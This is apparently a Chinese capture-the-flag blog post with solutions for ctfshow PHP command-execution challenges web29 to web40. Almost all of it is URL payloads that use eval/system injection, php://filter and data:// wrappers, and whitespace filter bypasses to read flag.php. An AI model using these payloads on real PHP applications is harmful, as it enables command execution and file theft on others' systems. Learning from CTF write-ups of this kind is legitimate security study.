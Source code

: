 ```yaml
---
title: 命令执行刷题
date: 2025-01-11 10:20:52
tags:
    - "web"
    - "刷题"
    - 命令执行
categories:
    - Yohane-Mashiro
cover: https://avatars.githubusercontent.com/u/78677516?v=4
---
```


### web29
```payloads
?c=system("cat f???.php");
```

### web30
```payloads
?c=echo(`ls`);
?c=echo(`tac%20f*`);
```
或者
```payloads
?c=eval($_GET[1]);&1=system("tac%20flag.php");
```

### web31
```payloads
?c=eval($_GET[1]);&1=system("tac%20flag.php");
```
或者
```payloads
?c=echo(tac%09fla*); #使用tab来代替空格
```

### web32

使用语言结构，绕过（ 的过滤
常用的语言结构有：echo print include require isset unset

```
?c=include%0a$_GET[1]?%3E&1=php://filter/convert.base64-encode/resource=flag.php
```
利用文件包含的漏洞

### web33
```
?c=include%0a$_GET[1]?%3E&1=php://filter/convert.base64-encode/resource=flag.php
```
这个也利用文件包含的漏洞

### web34
```
?c=include%0a$_GET[1]?%3E&1=php://filter/convert.base64-encode/resource=flag.php
```
同上

### web35
```
?c=include%0a$_GET[1]?%3E&1=php://filter/convert.base64-encode/resource=flag.php
```
同上

### web36
```
?c=include%0a$_GET[sb]?%3E&sb=php://filter/convert.base64-encode/resource=flag.php
```
同上

### web37
```
?c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=
或者
c=data://text/plain,<?=system('tac fl*.*');?>
```
利用php伪协议

### web38
```
?c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=
或者
c=data://text/plain,<?=system('tac fl*.*');?>
```

### web39
```
?c=data://text/plain,<?=system("tac fla*.php");?>//
```

### web40
```
?c=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
```

下面这个是别人写的，比较好
```
题解，查看当前工作目录getcwd()，扫描当前目录及文件"scandir()"输出 为数组，flag.php 在倒数第二个个位置那就数组倒置array_revers()，变为正数第二，在使用next()函数指向从第一个指向第二个（及指向flag.php）,最后使用show_source（）查看文件的内容 ?c=print_r(show_source(next(array_reverse(scandir(getcwd())))));
url+?c=print_r(getcwd()); ===> /var/www/html
url+?c=print_r(scandir(getcwd())); ===> Array ( [0] => . [1] => .. [2] => flag.php [3] => index.php )
url+?c=print_r(array_reverse(scandir(getcwd()))); ==> Array ( [0] => index.php [1] => flag.php [2] => .. [3] => . )
url+?c=print_r(next(array_reverse(scandir(getcwd())))); ==> flag.php
url+?c=print_r(show_source(next(array_reverse(scandir(getcwd()))))); ==> $flag="ctfshow{eca2e7df-d196-4b71-9632-ad4d32e194d3}";
```

--------
待补充